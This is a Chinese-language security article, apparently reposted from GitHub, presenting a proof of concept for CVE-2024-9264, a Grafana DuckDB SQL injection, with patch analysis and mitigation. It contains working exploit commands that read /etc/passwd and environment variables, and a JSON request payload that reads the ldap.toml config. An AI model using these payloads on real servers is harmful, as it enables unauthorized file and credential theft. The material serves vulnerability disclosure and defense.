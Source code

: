 #  【PoC】开源监控平台Grafana 后认证 DuckDB SQL 注入（文件读取）CVE-2024-9264 （9.9）   
 独眼情报   2024-10-20 12:53  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnQBFCTJSwk2huDekxXEbcBFMYpuhmlMcqSTJnicVZtbo6KXWqk5nvnDMKRngVukncBOPmzhvAf0Uiaw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
### 概念验证 (PoC)  
  
此 PoC 展示了利用 CVE-2024-9264 使用已认证用户执行 DuckDB SQL 查询并读取文件系统上的任意文件的方法。  
  
**设置:**通过以下命令安装所需的依赖项：  
```
pip install -r requirements.txt

```  
  
**使用（文件读取示例）:**  
```
python3 CVE-2024-9264.py -u user -p pass  -f /etc/passwd  http://localhost:3000

```  
  
您还可以执行任意的 DuckDB 查询，例如调用 getenv 来检索环境变量：  
```
python3 CVE-2024-9264.py -u user -p pass -q "SELECT getenv('PATH')" http://localhost:3000

```  
  
可以被利用的 DuckDB 功能函数列表可在此处找到 这里。  
### 漏洞概述  
  
CVE-2024-9264 是 Grafana 实验性 SQL 表达式功能中的一个 DuckDB SQL 注入漏洞。任何已认证用户都可以通过修改 Grafana 仪表板中的表达式来执行任意的 DuckDB SQL 查询。  
  
**受影响版本:**  
- Grafana OSS 和企业版 11.0.0 - 11.0.5, 11.1.0 - 11.1.6, 以及 11.2.0 - 11.2.1。  
  
**修复版本:**  
- 11.0.5+security-01 及更高版本  
  
### 查找补丁  
  
Grafana 发布了特殊版本来修复此漏洞。为了分析补丁，可以使用以下命令来比较变更：  
```
git checkout v11.0.5+security-01
git diff 0421a8911cfc05a46c516fd9d033a51e52e51afe 70316b3e1418c9054017047e63c1c96abb26f495

```  
  
这显示 SQL 表达式功能从易受攻击的版本中被简单地移除了。  
```
+++ b/pkg/expr/sql/db.go
@@ -0,0 +1,26 @@
+package sql
+
+import (
+       "errors"
+
+       "github.com/grafana/grafana-plugin-sdk-go/data"
+)
+
+type DB struct {
+}
+
+func (db *DB) TablesList(rawSQL string) ([]string, error) {
+       return nil, errors.New("not implemented")
+}
+
+func (db *DB) RunCommands(commands []string) (string, error) {
+       return "", errors.New("not implemented")
+}
+
+func (db *DB) QueryFramesInto(name string, query string, frames []*data.Frame, f *data.Frame) error {
+       return errors.New("not implemented")
+}
+
+func NewInMemoryDB() *DB {
+       return &DB{}
+}

```  
```
@@ -85,7 +84,7 @@ func (gr *SQLCommand) Execute(ctx context.Context, now time.Time, vars mathexp.V
 
        rsp := mathexp.Results{}
 
-       duckDB := duck.NewInMemoryDB()
+       duckDB := sql.NewInMemoryDB()
        var frame = &data.Frame{}
        err := duckDB.QueryFramesInto(gr.refID, gr.query, allFrames, frame);
        if err != nil {

```  
  
补丁完全移除了 SQL 表达式功能，防止了被利用的可能性。  
### 利用漏洞  
1. **启动 Grafana**:
使用版本 11.0.5 运行 Grafana：  
```
docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:11.0.5

```  
  
  
1. **修改表达式**:
创建一个包含类似 "Math" 表达式的仪表板，用 Burp 截获请求，并将 datasource 类型从 math 修改为 sql。  
  
将会发送一个 HTTP 请求到 /api/ds/query?ds_type=__expr__&expression=true&requestId=Q101。  
  
下面是最小化的 JSON，用于执行一个读取任意文件如 ./conf/ldap.toml 的 DuckDB SQL 查询：  
```
{
  "queries": [
    {
      "refId": "B",
      "datasource": {
        "type": "__expr__",
        "uid": "__expr__",
        "name": "Expression"
      },
      "type": "sql",
      "hide": false,
      "expression": "SELECT content FROM read_blob(\"./conf/ldap.toml\")",
      "window": ""
    }
  ],
  "from": "1729313027261",
  "to": "1729334627261"
}

```  
  
  
无需实际存在仪表板即可进行利用，这只是找到执行查询的 HTTP 请求的一种简便方式。  
### 利用可能性  
  
需要注意的是，虽然此漏洞非常严重，但其可利用性取决于 Grafana 服务器上是否安装了 DuckDB 二进制文件。**默认情况下，Grafana 并不随附安装 DuckDB**，且没有选项可以直接从 Grafana 接口安装它。  
  
**要使此漏洞可被利用，管理员必须手动安装 DuckDB 并将其添加到 Grafana 服务器的 $PATH 中。** 如果不存在 DuckDB，SQL 注入漏洞则无法被利用，在默认安装中成功利用的可能性大大降低。  
### 缓解措施  
  
将 Grafana 更新到已修复的版本，并确保在延迟修补的情况下，DuckDB 二进制文件不在 $PATH 中。  
### 致谢  
  
此 PoC 使用了由 cfreal 开发的 ten 框架。  
>   
> https://github.com/nollium/CVE-2024-9264/  
  
  
还是那句老话，poc 合法使用，是否存在投毒自行判断。  
  
